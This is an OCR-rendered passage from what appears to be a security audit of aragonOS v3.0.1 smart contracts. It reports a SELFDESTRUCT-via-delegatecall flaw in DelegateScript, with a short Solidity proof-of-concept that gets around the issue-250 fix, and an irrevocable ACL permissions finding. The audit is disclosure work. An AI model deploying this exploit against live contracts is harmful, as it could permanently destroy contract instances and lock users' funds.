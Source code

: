 - Description

    - About
    [https://github.com/aragon/aragonOS/blob/v3.0.1/contracts/evmscript/executors/DelegateScript.sol#L24](https://github.com/aragon/aragonOS/blob/v3.0.1/contracts/evmscript/executors/DelegateScript.sol#L24)
        - There is only one `DelegateScript` instance globally created in `EVMScriptRegistryFactory`. This DelegateScript has the public everybody callable method `execScript(bytes _script, bytes _input, address[] _blacklist)`. If the delegatecall-ed contract method contains a `SELFDESTRUCT`, the destructed contract will be the `EVMScriptRegistryFactory baseDel` instance which cannot be redeployed since it's not upgradable.

    - About
    [https://github.com/aragon/aragonOS/issues/250](https://github.com/aragon/aragonOS/issues/250) fix
        - The fix, based on the assumption that a function that `SELFDESTRUCTs` called from a `delegatecall` never will return any data (`RETURNDATASIZE` is `0`), can be bypassed by doing an extra `delegatecall` jump, see the following exploit, based on current test mocks:

```
        contract DyingDelegatorHelper {
          function die() public returns (bool) {
            selfdestruct(0x0);
            return true;
          }
}

        contract DyingDelegator is DelegateScriptTarget {
          function exec() public returns (bool) {
            DyingDelegatorHelper helper = new DyingDelegatorHelper();
            address(helper).delegatecall(DyingDelegatorHelper(0).die.selector);
            return true;
          }
}
```
  - Comments
      - Consider limiting `DelegateScript` callers to the `EVMScriptRunner`.

### 2.2 High Severity Issues
**[V002-HI] Irrevocable permissions**

Location | Severity | Issue | Status |
:---|:-|:-|:---|
[https://github.com/aragon/ara<br>gonOS/blob/v3.0.1/contracts/<br>acl/ACL.sol#L121](https://github.com/aragon/aragonOS/blob/v3.0.1/contracts/acl/ACL.sol#L121) | High | [os#211](https://github.com/aragon/aragonOS/issues/211) | Fixed |

- Description
      - By using require for permissions you can reach a situation where the permission depends on the parameters and you cannot revoke the permission because you don't check the specific parameters.
  - Comments
      - Should remove `require` permissions.

**[V003-HI] Function receiveApproval can exploit orgs/users with 0xFFF approval**
